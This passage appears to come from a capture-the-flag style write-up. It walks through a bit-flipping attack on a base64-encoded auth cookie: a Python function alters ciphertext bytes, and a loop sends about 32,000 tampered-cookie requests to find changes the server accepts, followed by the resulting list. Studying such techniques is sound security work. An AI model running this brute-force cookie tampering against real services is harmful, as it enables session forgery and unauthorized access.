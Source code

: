 Now the function which actually bit-flips. Given a specific number, a position, and the ciphertext, all this does is add to the byte at the provided position and modulos it by 256 (ensuring we have a valid byte, as >256 would throw an error), then converts it back to a bytestring and base64-encodes it:

```python
def bitflip(bit, pos, ciphertext):
    l = list(base64.b64decode(ciphertext))
    flipped = (bit + l[pos])%256
    l[pos] = flipped
    return base64.b64encode(bytes(l))
```

The next step here is to simply try every single byte within the ciphertext, try every single possible bit permutation of each byte, and review how the server reacts to each one. In most cases, the server will respond with a 500 server error, but in this particular case, the server is nice enough to respond with a very telling response of "Cannot decode auth_key" or something similar. So that said, using the following code, I can create a `possibilities` list of bits I flipped at specific positions where the server *did not* respond with an error message stating that it couldn't decode the key, and review that for further analysis. This code loops through each bit permutation for each byte in the ciphertext, re-builds the cookie and simply executes a GET request with the new cookie, and tosses out the requests that throw an error:

```python
possibilities = []

for i in range(256):
    for j in range(0, len(base64.b64decode(cipher))):
        a = bitflip(i, j, cipher)
        cookies = {"auth_name": a.decode() }

        r = requests.get(url, cookies=cookies)

        if "Cannot decode" not in r.text:
            possibilities.append([i, j])
```

The above code takes quite a bit to run through, as the ciphertext is 128 bytes long (and incidentally, is base64-encoded twice for some bizarre reason, but it shouldn't really matter considering what I'm doing), and for each byte it iterates 256 times, causing 32,768 requests in total! Needless to say, this is a pretty noisy attack. Hopefully I can get through this without anyone taking notice!

For the record, after this finishes, the `possibilities` list contains the following number combinations that it ran through the `bitflip()` function, and the server *didn't* return an error message:

```python
possibilities = [[0, 0], [0, 1], [0, 2], [0, 3], [0, 4], [0, 5], [0, 6], [0, 7], [0, 8], [0, 9], [0, 10], [0, 11], [0, 12], [0, 13], [0, 14], [0, 15], [0, 16], [0, 17], [0, 18], [0, 19], [0, 20], [0, 21], [0, 22], [0, 23], [0, 24], [0, 25], [0, 26], [0, 27], [0, 28], [0, 29], [0, 30], [0, 31], [0, 32], [0, 33], [0, 34], [0, 35], [0, 36], [0, 37], [0, 38], [0, 39], [0, 40], [0, 41], [0, 42], [0, 43], [0, 44], [0, 45], [0, 46], [0, 47], [0, 48], [0, 49], [0, 50], [0, 51], [0, 52], [0, 53], [0, 54], [0, 55], [0, 56], [0, 57], [0, 58], [0, 59], [0, 60], [0, 61], [0, 62], [0, 63], [0, 64], [0, 65], [0, 66], [0, 67], [0, 68], [0, 69], [0, 70], [0, 71], [0, 72], [0, 73], [0, 74], [0, 75], [0, 76], [0, 77], [0, 78], [0, 79], [0, 80], [0, 81], [0, 82], [0, 83], [0, 84], [0, 85], [0, 86], [0, 87], [0, 88], [0, 89], [0, 90], [0, 91], [0, 92], [0, 93], [0, 94], [0, 95], [0, 96], [0, 97], [0, 98], [0, 99], [0, 100], [0, 101], [0, 102], [0, 103], [0, 104], [0, 105], [0, 106], [0, 107], [0, 108], [0, 109], [0, 110], [0, 111], [0, 112], [0, 113], [0, 114], [0, 115], [0, 116], [0, 117], [0, 118], [0, 119], [0, 120], [0, 121], [0, 122], [0, 123], [0, 124], [0, 125], [0, 126], [0, 127], [16, 13], [28, 15], [31, 15], [35, 15], [194, 11], [218, 13], [227, 11], [234, 11], [234, 13], [237, 11], [241, 11], [242, 11], [243, 11], [244, 11], [245, 11], [246, 11], [247, 11], [248, 11], [248, 12], [249, 11], [255, 12]]
```
